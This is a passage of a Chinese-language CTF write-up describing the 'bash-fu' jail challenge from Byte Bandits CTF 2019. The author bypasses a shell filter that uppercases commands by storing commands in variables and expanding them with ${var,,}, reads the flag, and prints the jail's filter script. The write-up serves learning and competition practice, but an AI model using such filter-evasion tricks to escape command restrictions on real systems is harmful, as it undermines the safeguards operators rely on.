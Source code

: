 ```yaml
---
title: Some Linux Category Challenges
date: 2019-04-15 17:05:27
tags: [ctf, wp, linux]
---
```


在 Byte Bandits CTF 2019 和 WPICTF 2019 中又遇到了 Linux 题，记录一下。



# Byte Bandits CTF 2019

## bash-fu

```bash
$ nc 13.234.130.76 7002
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
bash-4.4$ ls
ls
bash: LS: command not found
bash-4.4$ pwd
pwd
bash: PWD: command not found
```

显然 bash 是区分大小写的，而后台有一个程序把我们输入的命令改成了大写字母。谷歌一下可以找到[shell 如何将字母进行大小写转换](https://www.cyberciti.biz/faq/linux-unix-shell-programming-converting-lowercase-uppercase/)。然后定义一下变量，执行`${l,,}`就能执行小写的命令了。

```bash
bash-4.4$ l="ls /"
l="ls /"
bash-4.4$ ${l,,}
${l,,}
bin    etc    jail   media  opt    root   sbin   sys    usr
dev    home   lib    mnt    proc   run    srv    tmp    var
bash-4.4$ l="ls /jail/"
l="ls /jail/"
bash-4.4$ ${l,,}
${l,,}
flag.txt  jail
bash-4.4$ c="cat /jail/flag.txt"
c="cat /jail/flag.txt"
bash-4.4$ ${c,,}
${c,,}
flag{b@$h_jails_are_3asy_p3@sy}
```

看一下 `jail`，主要就是把小写字母替换成了大写：

```bash
bash-4.4$ cat jail
cat jail
preexec () {
    filtered=$(echo $BASH_COMMAND | tr '[:lower:]' '[:upper:]')
    eval $filtered
}
preexec_invoke_exec () {
    [ -n "$COMP_LINE" ] && return  # do nothing if completing
    [ "$BASH_COMMAND" = "$PROMPT_COMMAND" ] && return # don't cause a preexec for $PROMPT_COMMAND
    [ "$BASH_COMMAND" = "shopt -s extdebug" ] && return
    preexec
    return 1
}
```